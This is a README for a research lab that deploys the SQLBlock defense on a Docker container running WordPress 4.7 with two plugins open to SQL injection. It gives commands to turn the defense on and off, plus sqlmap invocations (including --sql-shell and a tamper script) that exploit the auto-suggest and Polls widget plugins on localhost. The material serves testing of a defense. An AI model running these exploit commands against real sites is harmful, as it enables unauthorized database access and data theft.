

# SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom)

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom).

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link](https://portswigger.net/burp/communitydownload).

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here](https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application).
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save item" option to save the request for submitting an answer to the poll to a file.



To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the `path_to_saved_requset`.

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

